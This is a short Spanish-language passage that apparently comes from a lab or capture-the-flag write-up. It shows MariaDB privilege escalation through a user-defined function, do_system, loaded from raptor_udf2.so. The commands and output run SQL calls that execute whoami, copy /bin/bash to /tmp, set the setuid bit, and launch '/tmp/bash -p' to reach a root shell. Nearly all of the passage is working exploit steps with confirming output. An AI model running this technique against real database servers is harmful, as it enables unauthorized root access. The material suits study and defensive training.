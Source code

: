 ```bash
MariaDB [mysql]> 

```

Comprobar :
```bash
MariaDB [mysql]> select do_system('whoami > /tmp/whoami.txt');
+---------------------------------------+
| do_system('whoami > /tmp/whoami.txt') |
+---------------------------------------+
|                                     0 |
+---------------------------------------+
1 row in set (0.001 sec)

```

Aunque aparezca 0, podemos comprobarlo y si todo OK:
```bash
MariaDB [mysql]> select do_system('cp /bin/bash /tmp/bash ; chmod +s /tmp/bash');
+----------------------------------------------------------+
| do_system('cp /bin/bash /tmp/bash ; chmod +s /tmp/bash') |
+----------------------------------------------------------+
|                                                        0 |
+----------------------------------------------------------+
1 row in set (0.002 sec)

```

EJECUTAR :

```bash
designer@b11539ab1ad7:/tmp$ ls
1518.c  1518.o  bash  raptor_udf2.so  uwsgi.sock  whoami.txt
designer@b11539ab1ad7:/tmp$ /tmp/bash -p
bash-5.2# whoami
root
bash-5.2# 
```

**YA ESTAMOS COMO ROOT.**